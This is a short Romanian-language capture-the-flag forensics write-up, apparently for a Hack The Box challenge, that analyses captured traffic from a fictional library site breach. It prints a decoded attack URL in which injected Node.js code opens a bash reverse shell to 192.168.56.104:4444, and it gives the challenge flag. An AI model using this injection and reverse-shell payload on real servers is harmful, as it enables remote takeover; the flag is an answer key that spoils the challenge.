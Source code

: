 Sarcina:
```
On the haunting night of Halloween, the website of "Shadowbrook Library"—a digital vault of forbidden and arcane manuscripts—was silently breached by an unknown entity.
Though the site appears unaltered, unsettling anomalies suggest something sinister has been stolen from its cryptic depths.
Ominous network traffic logs from the time of the intrusion have emerged. Your task is to delve into this data and uncover any dark secrets that were exfiltrated.
```

În sarcina dată avem captura traficului de rețea unde avem trafic de tipul `HTTP` și `TCP`. Să analizăm traficul:

![alt text](../image/FM_1.png)

Avem acest request care de fapt este un `Revers Shell` care lucreaza pe `TCP`
```
http://shadowbrook.htb/?user=exploit() {} && ((()=>{ global.process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/192.168.56.104/4444 0>&1'"); })()) && function pwned
```
În felul dat arată query dacă nu este codat în `URL`.
Verificam traficul `TCP`:

![alt text](../image/FM_2.png)

`4854427b66307262316464336e5f6d346e753563723170375f31355f316e5f3768335f77316c647d`
Flagul nostru este întrun format hex:
După decriptarea acestui avem flagul: `HTB{f0rb1dd3n_m4nu5cr1p7_15_1n_7h3_w1ld}`
